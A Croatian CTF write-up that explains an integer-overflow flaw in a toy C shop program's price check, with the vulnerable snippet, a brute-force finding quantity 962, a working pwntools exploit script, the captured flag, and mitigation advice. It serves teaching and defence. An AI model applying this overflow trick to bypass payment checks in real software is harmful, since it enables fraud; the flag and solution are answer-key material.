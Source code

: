# Writeup

## Otkrivanje ranjivosti

Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **integer overflow** kod kupovine stvari. 

Isječak koda koji sadrži ranjivost:
```c
if(dostupneStvari[opcija-1].cijena * kolicina <= novac){
		novac-= dostupneStvari[opcija-1].cijena;
		printf("Kupljeno: %s (%dx)\n", dostupneStvari[opcija-1].ime,kolicina);
		
		if(opcija-1 == 4){
			tajnaStvarKupljena();
		}
		
		return;
}
```
Kako bi izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` bio istinit, može se za količinu stvari _Super tajna stvar_ unijeti veliki broj koji će zbog integer overflow-a zadovoljiti izraz.

## Objašnjenje ranjivosti

Najveća moguća vrijednost varijable tipa int u C programskom jeziku je ```2 147 483 647```. Ako integer varijabla sadrži tu najveću vrijednost i inkrementira se za jedan, tada će nova vrijednost biti ```-2 147 483 648```. To se događa zbog integer overflow-a, gdje se nakon postizanja najveće moguće vrijednosti 32-bitnog int tipa (2 147 483 647) inkrementiranjem prelazi u negativni raspon zbog dvokomplementnog prikaza brojeva, gdje se najviši bit koristi za znak broja.

Na sljedećoj slici prikazan je primjer integer overflow-a u 8-bitnom dvokomplementnom prikazu brojeva (32-bitni prikaz je sličan).

![slika](https://github.com/user-attachments/assets/cf8c8832-7cf6-407f-92f5-4d14117470fb)

Kod dvokomplementnog prikaza brojeva, najznačajniji bit se koristi za mogućnost spremanja negativnih brojeva. U ovom primjeru, najznačajniji bit nosi vrijednost ```-128```. Ako se na vrijednost ```127``` (koja u binarnom prikazu ima sve jedinice osim najznačajnijeg bita) pribroji jedan, tada će se sve jedinice pretvoriti u nule i jedinica će se prenijeti na najznačajniji bit.

U zadatku dolazi do integer overflowa prilikom umnoška cijene i količine. Budući da su obje varijable tipa ```int```, i njihov umnožak je također tipa ```int```. Zbog ograničenja raspona ovog tipa podatka, ako je rezultat umnoška prevelik za pohranu, dolazi do integer overflow-a.

Izrađen je kratak program koji traži najmanju količinu koja kada se pomnoži s cijenom stvari _Super tajna stvar_ uzrokuje integer overflow:
```c
#include <stdio.h>

int main()
{
    int cijena = 2232350;
    int kolicina = 1;
    for(;kolicina<99999999;kolicina++){
        int ukupno = kolicina*cijena;
        
        if(ukupno<=0){
            printf("%d\n",kolicina);
            printf("%d\n",ukupno);
            break;
        }
    }

    return 0;
}
```

Izlaz programa:
```
962
-2147446596
```

Iz izlaza programa vidimo kako je najmanja količina koja uzrokuje integer overflow jednaka ```962```. Umnoškom cijene i količine dobi se ```-2 147 446 596```

Izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` postaje ```-2 147 446 596 <= novac```. Pošto je ```novac``` uvijek veći ili jednak nuli, izraz postaje istinit.


## Iskorištenje ranjivosti

Za izradu rješenja može se napraviti Python skripta koja iskorištava integer overflow ranjivost u zadatku. Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. Nakon pokretanja programa, skripta odabire opciju kupnje stvari (3), zatim bira stvar _Super tajna stvar_ (5) i na kraju šalje količinu koja  uzrokuje integer overflow (962).

```python
from pwn import *

io = process("./kupovina") #da možemo slati i primati podatke od procesa
elf = ELF("./kupovina") #omogucava pwntools-u da može procitati gdje su adrese funkcija

# = = = START

print(io.recvuntil(b"Odabir:")) #pricekaj ovaj output, pa zatim nastavi
# b ispred stringa veli pythonu da on string tretira kao bytove i pwntools očekuje podatke u obliku bajtova
# python koristi UTF-8 stringove pa dolaze upozorenja ako se ne koristi b

io.sendline(b"3") #biranje opcije 3

print(io.recvuntil(b"Odaberite stvar koju zelite kupiti (0 za izlaz):")) 
io.sendline(b"5") #biranje opcije 5

payload = b""
payload += b"962"

# = = = END

io.sendline(payload) #slanje exploita
print(payload)

io.interactive() #prebacuje stdin i stdout na standardni ulaz i izlaz, vraća kontrolu korisniku (terminalu)

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[1nt3ger_0VERFL0W]```.

## Edukativne smjernice
- _Integer overflow_ je ranjivost kod koje se pri aritmetičkim operacijama (npr. množenju) prekorači maksimalna vrijednost u varijabli tipa _int_, pa rezultat preleti u negativni raspon i može prevariti logiku usporedbe.
- Za zaštitu od ove vrste napada preporučuje se:
  - Prije računanja provjeriti hoće li ```cijena * količina``` ostati unutar valjanog raspona.
  - Uvesti ograničenja na ulazne brojeve (maksimalna količina) kako bi se spriječile ekstremne vrijednosti.
  - Koristiti veće tipove podataka (npr. long) kad su vrijednosti velike.
